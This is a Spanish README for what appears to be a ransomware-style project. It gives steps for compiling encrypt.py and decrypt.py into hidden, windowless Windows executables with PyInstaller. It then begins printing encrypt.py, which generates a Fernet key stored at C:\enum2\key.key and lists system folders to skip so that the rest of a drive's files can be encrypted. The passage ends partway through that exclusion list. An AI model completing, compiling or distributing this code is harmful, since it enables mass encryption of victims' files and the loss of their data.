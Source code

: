 Si deseas modificar los scripts de Python, sigue estos pasos:

1. **Abrir los archivos .py**:
    - `encrypt.py`
    - `decrypt.py`

2. **Editar los scripts** según tus necesidades. Puedes usar cualquier editor de texto o un entorno de desarrollo integrado (IDE) como Visual Studio Code, PyCharm, etc.

3. **Instalar Python y PyInstaller** si no los tienes ya instalados:
    ```sh
    # Instalar Python (si no está instalado)
    https://www.python.org/downloads/

    # Instalar PyInstaller
    pip install pyinstaller
    ```

4. **Convertir los scripts a ejecutables .exe**:
    - Abre una terminal y navega a la carpeta donde se encuentran los archivos .py.
    - Ejecuta los siguientes comandos:
    ```sh
    pyinstaller --onefile --noconsole encrypt.py
    pyinstaller --onefile --noconsole decrypt.py
    ```

5. **Encontrar los archivos .exe** generados en la carpeta `dist`.

### 📄 Código Fuente

Aquí está el código fuente de los scripts de Python utilizados en este proyecto.

#### encrypt.py

```python
import os
from cryptography.fernet import Fernet
from tqdm import tqdm

# Ruta para guardar la clave de encriptación
key_path = 'C:\\enum2\\key.key'
if not os.path.exists(key_path):
    key = Fernet.generate_key()
    with open(key_path, 'wb') as key_file:
        key_file.write(key)
else:
    with open(key_path, 'rb') as key_file:
        key = key_file.read()

cipher = Fernet(key)

# Lista de exclusiones
exclusions = [
    'C:\\Windows',
    'C:\\Program Files',
    'C:\\Program Files (x86)',
    'C:\\Users\\Default',
    'C:\\Users\\Public',
    'C:\\Users\\<Username>\\AppData',
    'C:\\Users\\<Username>\\NTUSER.DAT',
    'C:\\Users\\<Username>\\ntuser.dat.LOG1',
    'C:\\Users\\<Username>\\ntuser.dat.LOG2',
    'C:\\Users\\<Username>\\Local Settings',
    'C:\\Users\\<Username>\\LocalService',
```